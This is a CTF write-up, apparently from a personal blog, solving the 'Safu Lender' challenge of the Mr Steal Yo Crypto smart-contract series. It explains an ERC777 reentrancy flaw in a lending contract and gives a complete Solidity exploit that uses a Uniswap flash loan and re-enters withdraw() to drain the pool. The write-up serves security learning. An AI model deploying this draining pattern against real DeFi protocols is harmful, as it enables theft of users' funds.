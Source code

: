 ```yaml
---
title: "Mr Steal Yo Crypto — Safu Lender"
date: 2023-07-22
draft: false
description: "CTF - 20"
tags: ["CTF"]
series: ["CTF"]
series_order: 20
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #20 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real world exploits.

Created by [@0xToshii](https://twitter.com/0xToshii).

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement).

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

### Safu Lender

[SETTING]: Following the exploit of Safu Labs’ vault, wallet & AMM products — at Safu Labs HQ.

[Mr Big Balls Boss]: "Fuck Chad we gotta make sure our new lending product doesn’t get exploited. I got into crypto to rake in cash, not to write post-mortems and get flamed on Twitter."

[Mega Chad Dev]: "Don’t worry bossman we got a [redacted] audit this time, they even hooked us up with a 50% off voucher."

[FIN]: "You drain all the funds (99%+ wBTC), starting with no tokens."

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/safu-lender)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/20-safu-lender.sol)

## Review of the contract

### Test file

At [L108](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/20-safu-lender.sol#L108), we can see that the token wBTC is added as a collateral to the protocol. But the token is an ERC777, do I need to say why the vulnerability is certainly here? Of course, this is a challenge so it needs to have a vulnerability. The second argument will be in MoneyMarket.sol.

### MoneyMarketHelpers.sol

Just a big contract for handling errors. This is just noise for disturbing us.

### IMoneyMarket.sol

A simple interface.

### MoneyMarket.sol

Quick reminder, an ERC777 gives the hand to the caller before and after a transfer. In our case, we want to check if the protocol updates our balance of collateral amount after withdrawing token. With an ERC777, we can do a reentrancy and withdraw more token than we supposed. For withdrawing, we are calling `withdraw()`. The function is very long but this is only noise, we just want to verify if the update of the balance is after the transfer. Transfer of the wBTC occurs at [L685](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/safu-lender/MoneyMarket.sol#L685) with `doTransferOut()` and the updates of variables start only at [L691](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/safu-lender/MoneyMarket.sol#L691), which means the vulnerability is confirmed.

## Exploit the vulnerability

The vulnerability is a reentrancy of the system, which is possible by the wBTC (ERC777) token. Here is the exploit step by step:

1. Use a flashloan for getting some wBTC via UniswapV2.
2. Supply `n` amount of wBTC and directly withdraw `n` from the protocol.
3. Inside our contract, we will write a function `tokensReceived()`. This function will be called each time we receive wBTC tokens. When `tokensReceived()` is called, we directly call `withdraw()`.
4. When we reenter into `withdraw`, our balance of collateral is still equal to `n`. We can again withdraw `n` amount of wBTC.
5. Do that until the protocol is fully drained.
6. Send `n + fee` amount of wBTC to the Uniswap pool.
7. Check how much you win!

Here is a solution:

```solidity
contract Exploit {
    address owner;
    IUniswapV2Pair usdcBtcPair;
    IWETH weth;
    Token usdc;
    Token777 wbtc;
    IMoneyMarket moneyMarket;

    constructor(address _wbtc, address _moneyMarket, address _usdcBtcPair) {
        owner = msg.sender;
        wbtc = Token777(_wbtc);
        moneyMarket = IMoneyMarket(_moneyMarket);
        usdcBtcPair = IUniswapV2Pair(_usdcBtcPair);
        wbtc.approve(address(moneyMarket), type(uint).max);
        wbtc.approve(address(usdcBtcPair), type(uint).max);
        _ERC1820_REGISTRY.setInterfaceImplementer(address(this), _TOKENS_RECIPIENT_INTERFACE_HASH, address(this));
    }

    function uniswapV2Call(address _address, uint amount0Out, uint amount1Out, bytes memory data) external {
        uint256 wbtcAmount = wbtc.balanceOf(address(this));
        console.log("balance wbtc of exploit: ", wbtcAmount);

        moneyMarket.supply(address(wbtc), amount1Out);

        moneyMarket.withdraw(address(wbtc), amount1Out);

        console.log("balance wbtc of exploit: ", wbtc.balanceOf(address(this)));
        console.log("amount to repay: ", (amount1Out * 103 / 100) + 1); // Yeah, the premium is a bit too high

        wbtc.transfer(address(usdcBtcPair), (amount1Out * 103 / 100) + 1);
        wbtc.transfer(owner, wbtc.balanceOf(address(this)));

        console.log("balance wbtc of attacker: ", wbtc.balanceOf(owner));
    }

    function tokensReceived(
        address operator,
        address from,
        address to,
        uint256 amount,
        bytes calldata userData,
        bytes calldata operatorData
    ) external {
        if (wbtc.balanceOf(address(moneyMarket)) >= 1e18) {
            console.log("balance wbtc of attacker: ", wbtc.balanceOf(owner));
            moneyMarket.withdraw(address(wbtc), amount);
        }
    }

    function pwn() external {
        usdcBtcPair.swap(0, 10e18, address(this), new bytes(1));
    }
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/20-safu-lender.sol).

### Acknowledgement

Thank you [https://stermi

.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.